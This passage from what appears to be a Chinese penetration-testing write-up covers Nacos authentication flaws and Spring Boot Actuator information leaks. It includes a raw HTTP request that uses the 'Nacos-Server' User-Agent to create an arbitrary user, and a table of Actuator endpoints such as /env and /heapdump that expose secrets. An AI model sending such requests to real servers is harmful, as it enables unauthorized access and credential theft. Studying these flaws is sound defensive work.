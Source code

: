 ```
POST /nacos/v1/auth/users HTTP/1.1
Host: ip:8848
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=test&password=test
```

test用户成功登录，可以看到有配置管理以及服务管理两个重要功能，因此，但攻击者可以任意进去后便可获得系统下的服务信息，进而进行更多的利用，包括一些数据库服务以及druid的监控服务等。

## 使用Spring Boot获得账号及密码

任意用户创建在Nacos <= 2.0.0-ALPHA.1大部分都被修复了，因此漏洞一的方法无法继续使用，但由于部分nacos在sping boot框架下搭建的，导致由于spring boot本身带有的信息泄露漏洞导致。

springboot 框架下拥有一个Actuator ，用来提供对应用系统进行自省和监控的功能模块，借助于 Actuator 开发者可以很方便地对应用系统某些监控指标进行查看、统计等。在 Actuator 启用的情况下，如果没有做好相关权限控制，非法用户可通过访问默认的执行器端点（endpoints）来获取应用系统中的监控信息，其中`Spring Boot 1.x`版本默认在`Url根目录`下，`Spring Boot 2.x`版本端点移动到`/actuator/`路径。

Actuator默认带有的接口有：

| 路径                | 描述                                                         |
| ------------------- | ------------------------------------------------------------ |
| /autoconfig         | 提供了一份自动配置报告，记录哪些自动配置条件通过了，哪些没通过。 |
| /configprops        | 描述配置属性（包含默认值）如何注入 Bean。                    |
| /beans              | 描述应用程序上下文里全部的  Bean，以及它们的关系。           |
| /dump               | 获取线程活动的快照。                                         |
| /env                | 获取全部环境属性。                                           |
| /health             | 报告应用程序的健康指标，这些值由 HealthIndicator 的实现类提供。 |
| /info               | 获取应用程序的定制信息，这些信息由 info 打头的属性提供。     |
| /mappings           | 描述全部的 URI 路径，以及它们和控制器（包含 Actuator 端点）的映射关系。 |
| /metrics            | 报告各种应用程序度量信息，比如内存用量和 HTTP 请求计数。     |
| /shutdown           | 关闭应用程序，要求 endpoints.shutdown.enabled 设置为 true（默认为 false）。 |
| /trace（httptrace） | 提供基本的 HTTP 请求跟踪信息（时间戳、HTTP 头等）。          |
| /heapdump           | heap dump内存溢出生成的文件，记录内存信息。                  |
